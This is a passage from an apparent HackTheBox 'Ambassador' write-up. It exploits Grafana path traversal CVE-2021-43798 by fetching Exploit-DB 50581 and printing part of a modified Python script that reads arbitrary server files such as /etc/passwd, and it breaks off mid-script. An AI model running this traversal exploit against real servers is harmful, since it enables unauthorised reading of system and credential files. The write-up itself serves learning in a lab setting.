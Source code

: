 ![Grafana version disclosure](/assets/hackthebox/ambassador/grafana_version.png)

This version is vulnerable to [CVE-2021-43798](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43798). This vulnerability is a `Path Traversial`, which can be exploited by following the url `/public/plugins/<PLUGIN_NAME>/<PATH>` on the Grafana web application. 

The vulnerability has a well-known exploit available on [Exploit-DB](https://www.exploit-db.com/exploits/50581/). We can copy it in our working directory with `searchsploit` command. It is pre-installed in Kali Linux.

```bash
searchsploit -m 50581
```

This is a `Python` script and it has a `random` library imported for searching which plugin is available on the server. After first run I've realised that it runs random plugin every time and throws false-positive results on single file, like /etc/passwd. Also, that version could not download binary files, so I've decided to modify it to download raw files. 

To do that, we have to modify `plugin` variable to any available plugin on the server, I've choosed `mysql`. Also, `requests` library provides a `content` attribute in every request, which contains raw data in bytes, we can write it to a file directly to make it possible to download binary files. I've removed the infinite loop and added a new parameter `-F` to select a file. My version of the exploit is below.

```python
import requests
import argparse
import sys

def exploit(args):
    s = requests.Session()
    headers = { 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.' }
    plugin = "mysql"
    url = args.host + '/public/plugins/' + plugin + '/../../../../../../../../../../../../..' + args.file

    try:
        req = requests.Request(method='GET', url=url, headers=headers)
```
